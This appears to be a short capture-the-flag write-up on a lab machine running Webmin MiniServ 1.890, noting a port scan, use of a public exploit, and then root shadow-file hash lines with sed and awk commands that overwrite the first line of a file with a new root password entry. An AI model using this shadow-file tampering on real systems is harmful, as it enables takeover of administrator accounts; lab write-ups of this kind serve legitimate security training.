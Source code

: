 # Source

`nmap` found two open ports for us.

> 22 ssh<br>
> 10000 snet-sensor-mgmt MiniServ 1.890 (Webmin httpd)<br>

I went to https://source.thm:10000 and found there:<br>
![webmin](./imgs/webmin.png)

I looked for `MiniServ 1.890 exploit` in google and found a python script, which turned out to work.


changeme:$6$xyz$9vc9yeDgngEirzYEeLZqCay8YLhc7JHmd1t2UYrjdm7dD0M6raCXz.xtEXBL4.aaRf26S/aKagS36D1iH7E79.
root:$6$xyz$9vc9yeDgngEirzYEeLZqCay8YLhc7JHmd1t2UYrjdm7dD0M6raCXz.xtEXBL4.aaRf26S/aKagS36D1iH7E79.:18295:0:99999:7:::

sed -i '1s/.*/root:$6$xyz$9vc9yeDgngEirzYEeLZqCay8YLhc7JHmd1t2UYrjdm7dD0M6raCXz.xtEXBL4.aaRf26S/aKagS36D1iH7E79.:18295:0:99999:7:::/' try.txt
awk 'NR==1 {$0="root:$6$xyz$9vc9yeDgngEirzYEeLZqCay8YLhc7JHmd1t2UYrjdm7dD0M6raCXz.xtEXBL4.aaRf26S/aKagS36D1iH7E79.:18295:0:99999:7:::"} 1' try.txt > tmpfile && mv tmpfile try.txt